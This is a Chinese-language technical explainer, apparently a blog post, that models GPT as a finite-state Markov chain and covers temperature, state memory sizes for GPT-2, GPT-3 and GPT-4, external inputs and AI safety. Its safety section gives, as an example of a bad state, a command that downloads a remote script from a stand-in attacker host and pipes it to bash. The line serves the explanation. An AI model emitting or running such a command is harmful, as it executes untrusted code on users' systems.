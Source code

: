 GPT 则是一种另一种计算机体系结构，

* 默认情况下是**<mark>随机</mark>**的，
* 计算的是 token 而不是比特。 

也就是说，即使在 **<mark><code>temperature=0</code></mark>** 采样，
也不太可能将 GPT 变成一个 FSM。这意味着每次状态转移都是贪婪地挑概率最大的 token；但也可以通过
[beam search](https://en.wikipedia.org/wiki/Beam_search) 算法来降低这种贪婪性。
但是，在采样时完全丢弃这些熵也是有副作用的，采样 benchmark 以及样本的
qualitative look and feel 都会下降（看起来很“安全”，无聊），因此实际上通常不会这么做。

> Temperature 是 NLP 中的一个参数，用于控制生成文本的随机性和创造性。
>
> * 值越大，生成的结果越多样和不可预测；
> * **<mark>值越小</mark>**，生成的结果越保守和**<mark>可预测</mark>**。

## 4.3 模型参数大小（GPT 2/3/4）

本文的例子是用 3bit 来存储一个状态，因此所需存储空间极小；但真实世界中的 GPT 模型所需的存储空间就大了。

[这篇文章](https://www.lesswrong.com/posts/7qSHKYRnqyrumEfbt) 对比了 GPT 和常规计算机（computers）的 size，例如：

* GPT-2 有 **<mark><code>50257</code></mark>** 个独立 token，上下文长度是 **<mark><code>2048</code></mark>** 个 token。

  每个 token 需要 `log2(50257) ≈ 15.6bit` 来表示，那一个上下文或
  **<mark>一个状态</mark>**需要的存储空间就是
  **<mark><code>15.6 bit/token * 2048 token = 31Kb ≈ 4KB</code></mark>**。
  这足以 [登上月球](https://www.digitec.ch/en/page/apollo-11-to-the-moon-with-4-kb-of-ram-12707)。

* GPT-3 的上下文长度为 **<mark><code>4096 tokens</code></mark>**，因此需要
  **<mark><code>8KB</code></mark>** 内存；大致是 [Atari 800](https://en.wikipedia.org/wiki/Atari_8-bit_family) 的量级；
* GPT-4 的上下文长度高达 **<mark><code>32K tokens</code></mark>** ，因此大约
  **<mark><code>64KB</code></mark>** 才能存储一个状态，对应 [Commodore64](https://en.wikipedia.org/wiki/Commodore_64)。

## 4.4 外部输入（I/O 设备）

一旦引入外部世界的输入信号，FSM 分析就会迅速失效了，因为会出现大量新的状态。

* 对于计算机来说，外部输入包括鼠标、键盘信号等等；
* 对于 GPT，就是 Microsoft Bing 这样的外部工具，它们将用户搜索的内容作为输入提交给 GPT。

## 4.5 AI 安全

如果把 GPT 看做有限状态马尔可夫链，那 GPT 的安全需要考虑什么？
答案是**<mark>将所有转移到不良状态的概率降低到 0</mark>**（elimination of all probability of transitioning to naughty states），
例如以 token 序列 `[66, 6371, 532, 82, 3740, 1378, 23542, 6371, 13, 785, 14, 79, 675, 276, 13, 1477, 930, 27334]`
结尾的状态 —— 这个 token sequence 其实就是 **<mark><code>curl -s https://evilurl.com/pwned.sh | bash</code></mark>**
这一 shell 命令的编码，如果真实环境中用户执行了此类恶意命令将是非常危险的。
